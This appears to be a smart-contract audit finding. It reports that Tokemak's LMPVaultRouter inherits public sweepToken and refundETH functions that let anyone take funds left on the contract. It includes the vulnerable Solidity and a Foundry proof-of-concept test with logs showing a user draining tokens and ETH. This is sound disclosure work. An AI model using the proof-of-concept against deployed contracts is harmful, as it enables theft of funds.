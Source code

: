 Happy Plastic Crow

medium

# In LMPVaultRouter anyone can withdraw funds from the contract due to inherited public `sweepToken` and `refuntETH` functions
## Summary
`LMPVaultRouter.sol` which is the entry point for the end user has a parent's parent which is  `PeripheryPayments.sol`. The latter implements public functions that allow anyone to "rescue" funds from the contract - which simply means ability to withdraw the current balance of the contract to the first caller. This may be used to constantly steal any `LMPVaultRouter.sol` contract balance, and is unlikely to be used for its legitimate purpose, since even the legitimate caller can be frontrun. However, `LMPVaultRouter` does not handle funds directly but act as an intermediate party, therefore the impact should be considered more like rescue functions were public, and like not a theft of stored funds.

## Vulnerability Detail
In [LMPVaultRouter](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouter.sol#L14) the inheritance is set to `contract LMPVaultRouter is ILMPVaultRouter, LMPVaultRouterBase`. Further, in [LMPVaultRouterBase](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L15) the inheritance is set to `abstract contract LMPVaultRouterBase is ILMPVaultRouterBase, SelfPermit, Multicall, PeripheryPayments`. The last of them, [PeripheryPayments](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L58-L69) has two public routines which allow anyone to withdraw balance of the contract.
Upon deployment, `LMPVaultRouter` will have all utilities of the inherited contracts, including these functions. That means, that it will also have these public functions allowing anyone to withdraw funds from the `LMPVaultRouter` contract.

## Impact
Any funds that will be left on the contract can be withdrawn by anyone. It is most likely that these won't be significant amount, but anything that is sent by mistake can be immediately stolen by bots or first users who see it profitable. 

## Code Snippet
Following the description from section Vulnerability Detail, the final code in `PeripheryPayments.sol` is below:
```solidity
    function sweepToken(IERC20 token, uint256 amountMinimum, address recipient) public payable {
        uint256 balanceToken = token.balanceOf(address(this));
        if (balanceToken < amountMinimum) revert InsufficientToken();

        if (balanceToken > 0) {
            token.safeTransfer(recipient, balanceToken);
        }
    }

    function refundETH() external payable {
        if (address(this).balance > 0) Address.sendValue(payable(msg.sender), address(this).balance);
    }
```

By modifying the existing unit test `LMPVaultRouter.t.sol` following routine was created to see if random user can use these functions on the LMPVaultRouter contract and access funds that are on it:

```solidity
function test_deposit_() public {
        uint256 amount = depositAmount; // TODO: fuzz
        baseAsset.approve(address(lmpVaultRouter), amount);

        // -- try to fail slippage first -- //
        // set threshold for just over what's expected
        uint256 minSharesExpected = lmpVault.previewDeposit(amount) + 1;
        vm.expectRevert(abi.encodeWithSelector(ILMPVaultRouterBase.MinSharesError.selector));
        lmpVaultRouter.deposit(lmpVault, address(this), amount, minSharesExpected);

        // -- now do a successful scenario -- //
        _deposit(lmpVault, amount);
        deal(address(CVX_MAINNET), address(lmpVaultRouter), 1000);
        
        console2.log("Balance CVX of lmpVaultRouter before: ", IERC20(CVX_MAINNET).balanceOf(address(lmpVaultRouter)));
        console2.log("Balance CVX of Alice before: ", IERC20(CVX_MAINNET).balanceOf(alice));
        vm.prank(alice);
        lmpVaultRouter.sweepToken(IERC20(CVX_MAINNET), 500, alice); //minimal amount, will withdraw all
        console2.log("Balance CVX of lmpVaultRouter after: ", IERC20(CVX_MAINNET).balanceOf(address(lmpVaultRouter)));
        console2.log("Balance CVX of Alice after: ", IERC20(CVX_MAINNET).balanceOf(alice));

        deal(address(lmpVaultRouter), 2 ether);
        
        console2.log("Balance ether of lmpVaultRouter before: ", address(lmpVaultRouter).balance / 1e18);
        console2.log("Balance ether of Alice before: ", alice.balance / 1e18);
        vm.prank(alice);
        lmpVaultRouter.refundETH(); //minimal amount, will withdraw all
        console2.log("Balance ether of lmpVaultRouter after: ", address(lmpVaultRouter).balance / 1e18);
        console2.log("Balance ether of Alice after: ", alice.balance / 1e18);
        
        vm.prank(alice);
    }
```

Logs:

```text
Logs:
  Balance CVX of lmpVaultRouter before:  1000
  Balance CVX of Alice before:  0
  Balance CVX of lmpVaultRouter after:  0
  Balance CVX of Alice after:  1000
  Balance ether of lmpVaultRouter before:  2
  Balance ether of Alice before:  0
  Balance ether of lmpVaultRouter after:  0
  Balance ether of Alice after:  2
```

Which confirms that these functions are part of LMPVaultRouter when its deployed.

## Tool used

Manual Review
Foundry

## Recommendation
Override these functions or disable them, depending on what the team decides to do with tokens that happen to be trapped on the contract. They can be either accessible to a privileged caller, to really perform a "rescue" role, or instead to being sent to the sender, could be used as rewards within the protocol.
